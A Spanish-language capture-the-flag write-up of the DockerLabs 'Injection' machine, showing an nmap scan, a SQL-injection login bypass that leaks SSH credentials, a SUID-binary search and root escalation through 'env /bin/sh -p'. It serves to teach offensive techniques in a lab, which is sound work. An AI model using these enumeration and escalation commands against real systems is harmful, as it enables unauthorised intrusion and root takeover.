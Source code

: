 ```yaml
---
{"dg-publish":true,"permalink":"/dockerlabs/muy-facil/injection/","dgPassFrontmatter":true}
---
```


![Pasted image 20250525004817.png](/img/user/Imagenes/Pasted%20image%2020250525004817.png)


Empezamos haciendo un nmap para ver los puertos abiertos de la ip:

```
nmap -sCV -T5 172.17.0.2 -v -oN injection
```

![Pasted image 20250525005259.png](/img/user/Imagenes/Pasted%20image%2020250525005259.png)

Obsevamos que tenemos el puerto 22 y 80 abierto, vamos a colocar la ip dentro de firefox:

![Pasted image 20250525005437.png](/img/user/Imagenes/Pasted%20image%2020250525005437.png)

Tenemos un login y como dice su mismo nombre dice injection podemos intuir alguna injeccion sql, por lo cual probamos un payload basico.

![Pasted image 20250525005521.png](/img/user/Imagenes/Pasted%20image%2020250525005521.png)

Listo nos vota una password y un usuario, por lo tanto tambien sabemos que tenemos el puerto ssh(22) abierto entonces intentamos con las credenciales.

```
dylan:KJSDFG789FGSDF78
```

Y listo tenemos acceso a ssh:
![Pasted image 20250525005723.png](/img/user/Imagenes/Pasted%20image%2020250525005723.png)

Para terminar la maquina debemos ser root, por lo tanto buscare binarios.

```
find / -perm -4000 -type f 2>/dev/null
```

![Pasted image 20250525010906.png](/img/user/Imagenes/Pasted%20image%2020250525010906.png)

Encontramos esos binarios y si usamos la siguiente pagina: https://gtfobins.github.io/gtfobins/env/
- Observamos que le binario env si tiene el bit SUID activado, no elimina los privilegios elevados y puede usarse de forma abusiva para acceder al sistema de archivos, escalar o mantener el acceso privilegiado como una puerta trasera SUID.
Y como verificamos?
- Usaremos lo siguiente:
```
ls -l /usr/bin/env
```

y nos saldra:
```
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
```

Ese **s** en lugar de **x** en los permisos de usuarios (rws) significa que el bit SUID esta activado, y env se ejecuta con privilegios de root, aunque tu seas dylan.

Entonces al hacer:
```
env /bin/sh -p
```

1. env: se ejecuta con privilegios de root (por el SUID).
2. env lanza /bin/sh con -p
3. sh -p dice: **no bajes privilegios, mantenme como root**
4. Resultado: una shell con UID 0 -> root

Para entenderlo mejor que es el SUID?
- El SUID es como un disfraz que permite a dylan hacer todo lo que podria hacer un usuario root.
```
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
```
Este programa tiene le disfraz magico (SUID) de la autoridad (root).

![Pasted image 20250525015818.png](/img/user/Imagenes/Pasted%20image%2020250525015818.png)

Finnalmente somos root.

thanks.